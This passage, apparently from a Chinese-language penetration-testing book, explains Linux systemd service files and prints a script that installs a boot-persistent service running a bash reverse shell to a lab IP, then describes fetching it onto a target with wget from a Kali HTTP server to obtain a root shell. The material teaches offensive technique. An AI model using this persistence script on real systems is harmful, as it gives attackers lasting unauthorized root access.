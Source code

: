 该文件定义了以下内容：

+   服务的描述

+   它应在何时启动（网络启动后）

+   启动服务时要执行的命令

+   如果服务失败，重新启动的行为

+   服务应运行的用户

+   服务应安装在系统启动序列中的位置

修改系统服务文件可以提供在重启后仍然有效的持久性。这一点在以下命令中得到了展示，命令可以在本章的 GitHub 仓库中找到，文件名为 `ch12_persistence.service.sh`。请注意，ExecStart Bash 反向 shell 命令为一行，可能因排版问题换行：

```
 #!/usr/bin/env bash
sudo tee -a /etc/systemd/system/persistence.service << EOF
[Unit]
Description=Persistence Service
[Service]
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/192.168.56.101/5555 0>&1'
Restart=always
[Install]
WantedBy=multi-user.target
EOF
sudo systemctl enable persistence.service
sudo systemctl start persistence.service
```

这会创建一个新的 systemd 服务，在系统启动时建立反向 shell 连接。

这是该代码的解释：

+   `tee -a` 创建服务文件。

+   `<<` 重定向将 EOF 标签之间的所有内容发送到服务文件。

+   `[Unit]`、`[Service]` 和 `[Install]` 部分定义了服务。

+   `ExecStart` 指定了要执行的命令。

+   `systemctl enable` 设置服务在启动时自动启动。

+   `systemctl start` 会立即运行该服务。

让我们看看这个实际操作。首先，我将在我的 Kali 系统上运行 `python3 -m http.server` 命令，启动一个 HTTP 服务器用于文件传输。接着，我将在目标系统上使用 `wget` 从 Kali 下载文件，并将文件保存到 `/tmp`。然后，我会将文件设置为可执行并执行它。在 Kali 上，我会查看我的终端并发现我已经获得了反向 Shell 并作为 root 用户建立了会话。以下图示展示了这一过程。

在下图中，您可以看到 Python 服务器已在 Kali 系统上启动：

![图 12.8 – 我们运行 HTTP 服务器用于文件传输](img/B22229_12_08.jpg)

图 12.8 – 我们运行 HTTP 服务器用于文件传输
